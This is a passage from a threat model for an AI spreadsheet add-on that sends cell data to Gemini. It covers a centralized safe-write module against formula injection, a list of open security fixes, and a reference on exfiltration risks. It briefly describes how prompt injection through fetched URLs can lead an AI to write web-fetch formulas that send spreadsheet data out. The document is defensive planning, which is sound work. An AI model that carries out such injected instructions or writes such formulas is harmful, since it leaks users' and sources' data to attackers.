| T6 | R45 | Reduce | Implement a centralized "safe write" module (`src/server/safe-writes.ts`) as the only sanctioned path for writing a value to a spreadsheet cell: `writeSafeValue`/`writeSafeValueGrid` (plain text, single cell / grid) and `writeSafeRichText`/`writeSafeRichTextGrid` (rich text, single cell / grid), all routing through `sanitizeForCell()` — web-fetch formulas anywhere in the formula body are rejected with an explicit error string; any other formula-triggering prefix is literal-ized with a leading `'` (a correctness guarantee that untrusted content displays as written rather than being silently reinterpreted by Sheets, with a defense-in-depth bonus against any web-fetch-capable function not yet in the blocklist). Rich-text writes sanitize the already-rendered flattened text (`RichTextValue.getText()`), not the pre-markdown-parsed source, since markdown syntax can obscure a formula-triggering leading character or break the web-fetch pattern's adjacency match; formatting is dropped only on the (expected-rare) cells where sanitization actually had to act. ESLint-enforced (`no-restricted-syntax` in `eslint.config.mjs`): lint fails if a raw `setValue`/`setValues`/`setRichTextValue`/`setRichTextValues` call appears anywhere in `src/server/**/*.ts` outside `safe-writes.ts`, so a future write site cannot silently bypass the guard. Applied unconditionally to every write, including ones (grounding markdown, `importDriveLinks`' Drive URLs, `prepRecipe`'s journalist-typed form fields) that are not currently provably reachable by untrusted content — reachability is not a stable, locally-verifiable property (a future caller could silently invalidate it), and the guard costs nothing since no current or foreseen feature intends to write a live formula. Supersedes R8, R21, R22. |

---

## 4. Did We Do a Good Enough Job?

### Review Status

First draft — not yet formally reviewed by the security team. A full OWASP/LLM Top 10 automated security review was conducted on 2026-07-08, surfacing threats T16–T18 and the gap items below (R21–R39).

### Open Items

| Priority | Status | Linear | PR | Item | Description |
| --- | --- | --- | --- | --- | --- |
| Medium | Open | — | — | Branch protection audit | Confirm required-review rules are active on `main` and `develop` (R5) |
| Medium | Open | — | — | Access audit | Review and document who has Apps Script project editor access (R1) |
| Medium | Open | — | — | Stackdriver log audit | Review exception handling in `index.ts` to confirm no cell values or file names reach Stackdriver logs (R14) |
| Medium | Open | — | — | Shorten Stackdriver log retention | Set GCP Cloud Logging retention for the Apps Script project to 7 days (or the shortest operationally acceptable period) to limit exposure window for accidentally logged sensitive data (R20) |
| Medium | Open | — | — | Add `npm audit` to CI | Fail CI on high/critical npm vulnerabilities (R12) |
| Low | Open | — | — | Add `.npmrc` min-release-age | Add `min-release-age=1` to `.npmrc` to enforce minimal package age during install (R40) |
| Medium | Open | [AI-85](https://linear.app/propublica/issue/AI-85/fix-t15-ocr-temp-doc-cleanup-on-interrupted-execution) | — | Fix T15 — OCR temp doc cleanup | Wrap deletion in `finally`, alert user on cleanup failure, prefix temp doc names with `[SSI-TEMP]` (R19) |
| Low | Open | — | — | 2FA verification | Confirm 2FA is enforced on all accounts with deploy access (R9) |
| Medium | Open | — | — | T11 sidebar warning — specify both url_context vectors | Update the `url_context` warning copy to explicitly state that URLs already in dataset cells will be fetched, and that attacker-controlled URLs can inject instructions via their response (R13) |
| Low | Open | — | — | Post-MVP: pre-inference URL scan | Before a `url_context` run, scan prompt column cells for URLs and surface an alert listing them so the user can confirm before proceeding (R13, deferred) |
| Low | Open | — | — | User-facing data notice | Write guidance for journalists covering data sent to Gemini, prompt injection risk, and `url_context` egress (R3, R11, R13) |
| Low | Open | — | — | GCP budget alerts and quota caps | Configure spend alerts and per-key daily quotas in Google Cloud Console (R16, R17) |
| High | Open | [AI-89](https://linear.app/propublica/issue/AI-89/systemic-fix-for-t6-formula-injection-via-untrusted-cell-writes) | — | Systemic fix for T6 | Centralized safe-write module (`src/server/safe-writes.ts`) covering `runBatchAI` (plain, markdown, grounding), `extractText`, `formatMarkdownSelection`, `sampleRowsToEvaluation`, `writeColumn`/`findOrCreateColumn` — ESLint-enforced (R45); supersedes AI-56/R8, AI-75/R21, AI-76/R22 (all three now children of AI-89 in Linear) |
| High | Open | [AI-77](https://linear.app/propublica/issue/AI-77/fix-t16-drive-fileid-provenance-confused-deputy-idor) | — | Fix T16 — Drive fileId provenance | `fetchDriveMetadata`/`downloadDriveFiles` trust any fileId from cell text with no ownership check; confused-deputy/IDOR risk, chains with T6 (R23) |
| High | Closed | [AI-78](https://linear.app/propublica/issue/AI-78/fix-t17-gemini-api-key-sent-via-url-query-string) | — | Fix T17 — API key in URL | Done 2026-07-29 — `GEMINI_API_KEY` now sent via the `x-goog-api-key` header from `src/server/gemini-auth.ts`; source-scanning guard in `__tests__/api-key-hygiene.test.ts`. R25/AI-79 (echoed exceptions) still open (R24) |
| High | Open | [AI-79](https://linear.app/propublica/issue/AI-79/fix-t17-raw-exception-messages-echoed-into-spreadsheet-cells) | — | Fix T17 — echoed exceptions | Scrub raw exception messages in `runInference()`/`SSI()` catch blocks before writing to a cell (R25) |
| Medium | Open | — | — | Fix T8 — model/tools allow-list | Validate `config.model` and `config.tools` against allow-lists at the RPC boundary (R26) |
| Medium | Open | — | — | Fix T14 — row-count cap | Enforce a server-side row cap in `runBatchAI` (R27) |
| Medium | Open | — | — | Fix T14 — batch file size gate | Add a file-size check to the batch AI file pipeline before download/upload (R28) |
| Medium | Open | — | — | Fix T14 — token cap | Set a default `generationConfig.maxOutputTokens` (R29) |
| Medium | Open | — | — | Fix T18 — hyperlink scheme allow-list | Allow-list `http(s)`/`mailto` before `setLinkUrl()` in AI/grounding markdown (R30) |
| Medium | Open | — | — | Fix T18 — citation title escaping | Escape markdown-structural characters in citation titles/queries (R31) |
| Medium | Open | — | — | Fix T11 — grounding redirect validation | Validate redirect URI host/scheme in `resolveGroundingUris()` (R32) |
| Low | Open | — | — | Fix T5 — narrow `documents` scope | Change `documents` OAuth scope to `documents.readonly` (R33) |
| Low | Open | — | — | Fix T8 — prepRecipe validation | Validate `PrepColSpec` shape server-side in `prepRecipe` (R34) |
| Low | Open | — | — | Fix T13 — OCR size cap | Add a file-size cap before OCR temp-Doc conversion (R35) |
| Low | Open | — | — | Fix T18 — code_execution output | Truncate `code_execution` output and wrap its write in try/catch (R36) |
| Low | Open | — | — | Fix T14 — Sheets export size-check order | Move the Tier 2 size check ahead of `exportAndEncodeFile`'s full-sheet read (R37) |
| Low | Open | — | — | Fix T10 — pin build tooling | Pin `@google/clasp` to an exact version (R38) |
| Low | Open | — | — | Fix T4 — CI token scope | Add `permissions: contents: read` to the CI workflow (R39) |
| Medium | Open | — | — | Fix T8 — validate importDriveLinks/extractText inputs | `folderUrl`/`mimeTypes` (`importDriveLinks`) and `rowRange` (`extractText`) have no server-side validation (R41) |
| Medium | Open | — | — | Fix T8 — missing error handling on 4 exposed functions | `importDriveLinks`, `extractText`, `prepRecipe`, `sampleRowsToEvaluation` have no try/catch; raw exceptions reach the client unscrubbed (R42) |
| Medium | Open | [AI-87](https://linear.app/propublica/issue/AI-87/implement-test-button-in-the-run-ai-inference-panel-with-cost) | — | Fix T14 — test-run cost estimation | Add a "Test" button to Run AI that measures actual time/cost across a 10-row sample and displays rows tested, elapsed time, avg cost/row, and total test cost. Token counts and per-model pricing are captured and cached (`CacheService`, `runStats:{spreadsheetId}`) for R44 to consume, but a full-run cost projection is not yet displayed (R43) |
| Medium | Closed | [AI-88](https://linear.app/propublica/issue/AI-88/beef-up-run-ai-inference-panels-full-run-warning) | — | Fix T14 — untested-run warning | Done 2026-07-31 — `CHUNK_WARN_THRESHOLD` (200 rows) replaced by a test-coverage gate above `CHUNK_SIZE`; also fixed the warning never firing in the default highlighted-rows mode. No cost/time threshold shipped — a 10-row sample does not extrapolate reliably enough to gate on (R44) |

### Planned Threat Models

Two additional threat models are scoped for future sessions:

| Document | Perspective | Focus |
| --- | --- | --- |
| [`ssi-toolkit-threat-model-journalist.md`](ssi-toolkit-threat-model-journalist.md) | Journalist / user | Threats to the reporting process — source exposure via AI inference, data leakage in workflow, AI-generated errors affecting published work |
| `ssi-toolkit-threat-model-source.md` | Source | Threats to a source's identity — information that could identify a source via AI inference, Drive file metadata, prompt logs, Gemini data retention |

These cover the *human* security surface. The current document covers the *tool's* security surface.

### Notes

This is a living document. Threats and mitigations should be revisited when:

- New tools or data flows are added to the add-on
- The Gemini API integration changes (new endpoints, new data types)
- The deployment pipeline changes
- An incident occurs

---

## References

- [AI in Excel and Google Sheets: Prompt Injection and Data Exfiltration Risks](https://www.promptarmor.com/resources/ai-in-excel-and-google-sheets-prompt-injection-and-data-exfiltration-risks) — PromptArmor. Covers the T6/T9 attack chain: how AI-generated spreadsheet formulas can be used to exfiltrate data via web-fetch functions, and how prompt injection can be used to trigger the behavior.
